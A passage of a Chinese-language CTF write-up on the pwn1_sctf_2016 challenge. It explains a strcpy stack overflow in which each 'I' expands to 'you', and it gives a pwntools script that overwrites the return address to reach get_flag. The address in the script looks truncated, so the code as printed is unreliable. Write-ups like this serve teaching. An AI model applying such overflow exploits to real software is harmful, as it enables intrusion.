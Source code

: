 ```
  std::allocator<char>::~allocator(&v8, v2);    // 析构v8
  v3 = (const char *)std::string::c_str((std::string *)&input);// 将input使用string类的c_str函数变成字符串存放在char数组中并将字符串指针赋给v3
  strcpy(&s, v3);                               // 将v3拷贝到s上 
```

简单运行一下，我们可以发现程序的确会把输入中的`I`全部替换成`you`

![image.png](img/2bd2fe643bda9d1797af52a684502ed6.png)

同时我们可以看到，溢出大概需要`0x3c`个字节，也就是60个字节

![](img/3a1371a3f5a580eed0a048473e008ef4.png)

我们可以选择使用20个`I`作为padding，然后这段padding会被替换成30个`you`，刚好60个字节，在后面再覆盖掉ebp与返回地址控制程序返回到`get_flag`函数即可得到flag

故构造exp如下：

```
from pwn import *
get_flag_addr = 0x8048fd
p = process('./pwn1_sctf_2016')
payload = b'I'*20 + p32(0xdeadbeef) + p32(get_flag_addr)
p.sendline(payload)
p.recv() 
```

发送payload，得到flag

![](img/20d5fa9d6f4ab67fa9d089fedf5b4b73.png)

> C++逆向是真的kskjklasjdkajskdhasjdgsgdhsgdsajkqpiwourevz

# 0x005.ciscn_2019_n_1 - overwrite

